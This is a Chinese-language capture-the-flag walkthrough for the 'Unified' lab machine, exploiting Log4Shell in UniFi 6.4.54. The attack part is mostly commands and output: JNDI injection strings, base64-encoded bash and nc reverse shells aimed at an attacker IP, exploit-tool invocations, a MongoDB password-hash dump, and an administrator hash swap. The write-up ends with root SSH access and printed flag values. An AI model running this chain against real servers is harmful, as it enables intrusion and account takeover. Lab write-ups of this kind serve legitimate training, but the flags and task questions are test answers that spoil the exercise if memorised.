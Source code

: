 <center>Unified</center>



[toc]







## Unified

> Unified









### 1. task

1. Which are the first four open ports?

```shell
```

2. What is the title of the software that is running running on port 8443?

```shell
```

3. What is the version of the software that is running?

```shell
```

4. What is the CVE for the identified vulnerability?

```shell
```

5. What protocol does JNDI leverage in the injection?

```shell
```

6. What tool do we use to intercept the traffic, indicating the attack was successful?

```shell
```

7. What port do we need to inspect intercepted traffic for?

```shell
```

8. What port is the MongoDB service running on?

```shell
```

9. What is the default database name for UniFi applications?

```shell
```

10. What is the function we use to enumerate users within the database in MongoDB?

```shell
```

11. What is the function we use to update users within the database in MongoDB?

```shell
```

12. What is the password for the root user?

```shell
```







### 3.flag

> 获取flag

* 信息收集

```shell
nmap -sV -sC $ip

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.131.183:8443/manage
| fingerprint-strings: 
|   FourOhFourRequest: 
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
```

> 访问`8080`页面跳转了
>
> `https://10.129.147.42:8443/manage/account/login?redirect=%2Fmanage`

> cms: `unifi 6.4.54`
>
> 存在漏洞： [blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)

```sell
JNDI注入：
${jndi:ldap://10.10.16.32/whatever}"
```

![image-20241205101219997](./assets/image-20241205101219997.png)

```shell
# 流量监控
sudo tcpdump -i tun0
```

> 虽然响应报错，但是`${jndi:ldap://10.10.16.32/whatever}"`正在执行

> JIDI注入工具： [github](https://github.com/welk1n/JNDI-Injection-Exploit)

```shell
# JIDI注入工具反弹shell
bash -i >& /dev/tcp/10.10.16.32/4444 0>&1

# 对shell进行base64编码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zMi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}

# 工具执行
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zMi80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "10.10.16.32"


# 另外一片博客
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "nc 10.10.16.32 4444 -e /bin/sh" -A "10.10.16.32"

# 开启监听
nc -lnvp 4444
```

![image-20241205103318045](./assets/image-20241205103318045.png)

> burp执行payload

```shell
"${jndi:rmi://10.10.16.32:1099/86j49q}"
```

> 方法二： `log4j`

```shell
# 环境
apt install openjdk-11-jdk
# 安裝maven
apt install maven

# 通過log4j漏洞拿到shell需要下載以下脚本：
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package

# 接下來在命令行中獲取shell的腳本 base64編碼，這裡的ip為自己的。
echo 'bash -c bash -i >&/dev/tcp/10.10.16.32/4444 0>&1' | base64

# 再使用java將生成的base64編碼填入，IP也要更換自己的。
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMzIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.32"

# nc 监听
nc -lncp 4444
```

![image-20241205134352206](./assets/image-20241205134352206.png)

![image-20241205135046687](./assets/image-20241205135046687.png)

```shell
# burp修改字段：
"remember":"${jndi:ldap://10.10.16.32:1389/o=tomcat}",

# user.txt
cd /home
ls
michael
cd michael
ls
user.txt
cat user.txt
6ced1a6a89e666c0620cdb10262ba127
```

* 提权

```shell
# 查看系统进程
ps
    PID TTY          TIME CMD
      1 ?        00:00:00 docker-init
      7 ?        00:00:00 bash
     17 ?        00:01:51 java
     67 ?        00:00:53 mongod
   6316 ?        00:00:00 bash
   6320 ?        00:00:00 bash
   6323 ?        00:00:00 bash
   6424 ?        00:00:00 ps

ps -aux | grep mongod
```

![image-20241205135439042](./assets/image-20241205135439042.png)

> google搜索UniFi Default Database可以发现，UniFi默认数据库为ace

```shell
# 客户端
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson)"

administrator / $6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
```

![image-20241205135745080](./assets/image-20241205135745080.png)

```shell
# 从$6$可知，密码采用SHA512
$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.

# 既然无法破解，尝试是否可以使用新密码的sha 512 hash 替换原本的密码，使用mkpasswd工具：
mkpasswd -m sha-512 新密码
mkpasswd -m sha-512 admin123                                      
$6$NNKANutvVl7R.mfk$sysQ7tR/hrvihYcS/Snsi6GuIYwLs9rs/QLu0Rlsa3uHgmRTqe1FyfAOPximzmUCyVeXZvLSKetSQ3lFHxsbw.

# 修改密码
mongo --port 27117 ace --eval 'db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$NNKANutvVl7R.mfk$sysQ7tR/hrvihYcS/Snsi6GuIYwLs9rs/QLu0Rlsa3uHgmRTqe1FyfAOPximzmUCyVeXZvLSKetSQ3lFHxsbw."}})'

administrator/admin123
```

> 登陆网站。
>
> 获取到ssh密钥

![image-20241205141321646](./assets/image-20241205141321646.png)

```shell
# ssh登陆
ssh root@10.129.90.116

# flag
cd /root

cat root.txt
e50bc93c75b634e4b272d2f771c33681
```

